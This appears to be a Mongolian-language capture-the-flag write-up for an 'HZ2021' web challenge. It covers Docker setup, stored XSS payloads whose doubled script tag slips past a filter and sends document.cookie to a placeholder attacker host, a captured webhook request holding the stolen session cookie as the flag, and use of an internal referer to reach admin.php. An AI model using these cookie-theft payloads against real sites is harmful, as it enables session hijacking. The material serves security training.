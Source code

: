 ## Асаах

Docker desktop version биш docker engine  суулгаарай. 

```console
[root@localhost HZ2021]# docker --version
Docker version 20.10.10, build b485636
[root@localhost HZ2021]# docker-compose up -d
```


## Screenshot-1

`http://ipaddress/1337:/feed.php`
XSS өртөмтгий байх амархан шалгаж болно. 

```js
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```js
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал


```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```
flag
>HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}

## Screenshot-2
admin.php рүү хандвал Зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд XSS ээр ирсэн хүсэлтийг анхааралтай харвал. 

**`referer:	http://screen/god-wisper.php`** гэж байгаа

`http://screen/` гэдэг нь docker ийн дотоод url хаяг гэж харж болохоор байна. иймд `http://screen/admin.php` -н screenshot -г харвал 

flag гарч ирнэ. 

![9d7c1f6f904b57a79b892e.jpg](9d7c1f6f904b57a79b892e.jpg)

